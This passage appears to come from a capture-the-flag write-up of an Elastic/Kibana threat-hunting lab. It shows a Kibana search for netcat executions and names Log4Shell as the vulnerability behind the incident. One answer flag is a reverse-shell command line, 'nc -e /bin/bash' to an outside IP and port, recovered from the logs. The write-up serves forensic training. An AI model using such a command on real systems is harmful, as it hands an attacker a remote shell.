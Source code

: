 ![image](../assets/img/elastic-case/43.png)

`🖥️ Kibana`

- In kibana logs index search using `process.args : "nc" and event.action : exec` then extract process.command_line field from selected fields.

![image](../assets/img/elastic-case/120.png)

> Flag: nc -e /bin/bash 192.168.1.10 9999

#### 21. From the previous three questions, you may remember a famous java vulnerability. What is it?

[Log4Shell](https://en.wikipedia.org/wiki/Log4Shell){:target="_blank" rel="noopener"}.


> Flag: Log4Shell
